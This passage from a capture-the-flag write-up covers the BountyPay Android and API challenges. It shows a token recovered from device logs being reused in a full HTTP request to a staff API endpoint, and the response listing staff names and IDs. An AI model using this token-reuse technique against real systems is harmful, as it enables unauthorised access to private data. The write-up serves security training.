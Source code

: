 Note that this was the expected solution if you have a rooted Android device.
Otherwise you could find the same information in logs through `adb logcat`:
{F854103}

So by inserting this value in the text label I finally solved all the Android challenges!

Wooooooow!

And to celebrate I tweeted this:

{F854107}

So, thanks again B3nac!

## Logging to staff as Sandra
So...back to web stuff!

The last Android activity said that some information achieved there could be useful for next challenges.
So at this point it was clear (having also solved all the Adam challenges...) that we were talking about the *X-Token* header:
- `X-Token: 8e9998ee3137ca9ade8f372739f062c1`

Where could I use that?

Well, during recon I found that https://api.bountypay.h1ctf.com/api/staff API endpoint was missing the right token, so that seemed to me the best idea.
So I tried the following GET request that returned some interesting results:
```
GET /api/staff HTTP/1.1
Host: api.bountypay.h1ctf.com
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4078.0 Safari/537.36 autochrome/blue
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://api.bountypay.h1ctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
X-Token: 8e9998ee3137ca9ade8f372739f062c1
```

```
[{
    "name": "Sam Jenkins",
    "staff_id": "STF:84DJKEIP38"
}, {
    "name": "Brian Oliver",
    "staff_id": "STF:KE624RQ2T9"
}]
```

Two **staff_id**!
